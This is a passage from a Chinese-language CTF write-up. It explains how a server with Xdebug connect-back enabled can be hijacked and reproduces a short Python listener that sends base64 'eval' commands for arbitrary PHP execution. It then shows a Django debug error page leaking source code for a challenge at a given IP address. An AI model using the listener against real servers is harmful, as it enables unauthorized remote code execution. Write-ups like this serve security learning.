 ![xdebug3](https://mo-xiaoxi.github.io/img/post/whctf/xdebug3.png)



此外，当没有phpinfo，但是远程服务器还是开启了XDEBUG的情况下，我们也可以通过其进行任意命令执行。这个思路可以参考ricterz.me写的[博客](https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface)，很有意思。而且，ricterz.me的思路绕过了上文的2、3限制，是一个很好的技巧，值得学习！

比如你可以通过一个简单的curl命令测试远程服务器是否存在XDEBUG调试的漏洞。

![xdebug2](https://mo-xiaoxi.github.io/img/post/whctf/xdebug2.png)

当 `X-Forwarded-For` 地址的 9000 端口收到如上，就可以确定开启了 Xdebug，并且开启了 `xdebug.remote_connect_back`。

ricter还写了一个脚本用来利用这种配置漏洞：

```python
#!/usr/bin/python2
import socket

ip_port = ('0.0.0.0',9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
    client_data = conn.recv(1024)
    print(client_data)

    data = raw_input('>> ')
    conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
```

运行情况如下，可以进行任意PHP代码执行。

![xdebug](https://mo-xiaoxi.github.io/img/post/whctf/xdebug.png)

ricterz还分析了xdebug的其他一些可利用的命令。具体请大家阅读他的[博客](https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface)。

## CAT

http://120.55.42.243:20010/index.php?url=%a0

django调试模式打开了，输入%a0之类的字符可以获得报错信息，拿到一部分源码

```python
/opt/api/dnsapi/views.py in wrapper
       # 合并 requests.FILES 和 requests.POST
       for k, v in request.FILES.items():
           if isinstance(v, InMemoryUploadedFile):
               v = v.read()
           request.FILES[k] = v
       request.POST.update(request.FILES)
       return f(*args, **kwargs)
...
   return wrapper
@process_request
def ping(request):
▶ Local vars
/opt/api/dnsapi/views.py in ping
   return wrapper
@process_request
def ping(request):
   # 转义
   data = request.POST.get('url')
   data = escape(data)
...
```